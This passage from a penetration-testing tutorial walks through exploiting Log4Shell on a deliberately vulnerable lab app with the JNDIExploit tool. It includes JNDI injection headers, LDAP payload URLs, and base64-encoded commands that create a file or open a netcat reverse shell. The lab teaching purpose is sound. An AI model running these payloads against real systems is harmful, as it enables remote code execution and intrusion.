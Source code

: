 **Note:** This exploit hinges on Java's configuration to permit remote codebase loading via LDAP. If this is not permissible, consider exploiting a trusted class for arbitrary code execution.

### RCE - **JNDIExploit**

> [!TIP]
> Note that for some reason the author removed this project from github after the discovery of log4shell. You can find a cached version in [https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) but if you want to respect the decision of the author use a different method to exploit this vuln.
>
> Moreover, you cannot find the source code in wayback machine, so either analyse the source code, or execute the jar knowing that you don't know what you are executing.

For this example you can just run this **vulnerable web server to log4shell** in port 8080: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) (_in the README you will find how to run it_). This vulnerable app is logging with a vulnerable version of log4shell the content of the HTTP request header _X-Api-Version_.

Then, you can download the **JNDIExploit** jar file and execute it with:

```bash
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888 # Use your private IP address and a port where the victim will be able to access
```

After reading the code just a couple of minutes, in _com.feihong.ldap.LdapServer_ and _com.feihong.ldap.HTTPServer_ you can see how the **LDAP and HTTP servers are created**. The LDAP server will understand what payload need to be served and will redirect the victim to the HTTP server, which will serve the exploit.\
In _com.feihong.ldap.gadgets_ you can find **some specific gadgets** that can be used to excute the desired action (potentially execute arbitrary code). And in _com.feihong.ldap.template_ you can see the different template classes that will **generate the exploits**.

You can see all the available exploits with **`java -jar JNDIExploit-1.2-SNAPSHOT.jar -u`**. Some useful ones are:

```bash
ldap://null:1389/Basic/Dnslog/[domain]
ldap://null:1389/Basic/Command/Base64/[base64_encoded_cmd]
ldap://null:1389/Basic/ReverseShell/[ip]/[port]
# But there are a lot more
```

So, in our example, we already have that docker vulnerable app running. To attack it:

```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```
